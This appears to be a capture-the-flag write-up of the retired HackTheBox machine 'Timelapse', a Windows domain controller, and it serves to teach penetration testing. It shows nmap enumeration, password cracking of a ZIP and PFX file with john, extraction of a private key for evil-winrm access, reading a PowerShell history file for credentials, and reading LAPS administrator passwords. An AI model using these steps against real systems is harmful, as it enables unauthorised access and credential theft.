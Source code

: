 ```yaml
---
title: "HackTheBox: Timelapse"
collection: publications
permalink: /publication/timelapse
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-08-01
venue: '08-01'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/timelapse_header.png)

**LINK:** [Timelapse](https://app.hackthebox.com/machines/Timelapse)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
# nmap -sV -A -p- 10.10.11.152 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-25 07:04 EDT
Nmap scan report for 10.10.11.152
Host is up (0.14s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-07-25 19:12:30Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49696/tcp open  msrpc             Microsoft Windows RPC
50548/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

the scan reveals 17 open ports :
 * ``DNS`` on port 53
 * ``Kerberos`` on port 88
 * ``ldap`` on port 389 and his hostaname is timelpase.htb

> these open ports suggest that we're dealing with a domain controller.

* Let's check the ``smb`` shares.

![timelapse1](/images/timelapse1.png)

* There is an only open share named *shares* .

![timelapse2](/images/timelapse2.png)

* there is a zip file for ``winrm``, let's download it to our local machine and unzip it.

![timelapse4](/images/timelapse4.png)

* Unfortunately the zip file is password protected, let's use ``zip2john`` to generate a hash that can be brute forced with ``john the ripper``.

```bash
# zip2john winrm_backup.zip > file.john
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
``` 

* using john to brute force it :

![timelapse5](/images/timelapse5.png)

* Let's unzip the file now.

![timelapse6](/images/timelapse6.png)

> PFX files are digital certificates that contain both the SSL certificate (public keys) and private key. They’re essential for establishing secure connections between two devices.

* In order to extract the certificate and the private key, we should run the following commands :

```bash
# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
# openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pe
```
![timelapse7](/images/timelapse7.png)

* Since we don't have the password, let's convert it to a john hash.

```bash
# pfx2john legacyy_dev_auth.pfx > pfx.john
```

* let's crack it :

![timelapse8](/images/timelapse8.png)

# User Flag :

* After creating the certificate and the key using ``openssl``, let's connect to ``WinRM`` using ``evil-winrm``.

![timelapse9](/images/timelapse9.png)

* Get the user flag. 

# ROOT Flag : 

* Let's check the powershell history file .

```bash
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![timelapse10](/images/timelapse10.png)

* The file contains commands run by the user ``legacyy``, one of the commands was the creds for the user ``svc_deploy``.

* Reconnecting with ``svc_deploy`` creds.

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'redacted' -S
```

* While i was enumerating, i found that the ``svc_deploy`` user is part of an interesting group.

![timelapse11](/images/timelapse11.png)

> LAPS manages the local admin password, so since we are part of the LAPS_Readers we can read the administrator password.

```bash
Get-ADComputer -identity DC01 -properties *
```

![timelapse12](/images/timelapse12.png)

* Now it's time to reconnect but this time as the ``administrator``.

* The root.txt file was not in the desktop folder.

![timelapse13](/images/timelapse13.png)

* I found another user called ``TRX``, if you check his ``Desktop`` folder you will find the root flag.

![timelapse14](/images/timelapse14.png)



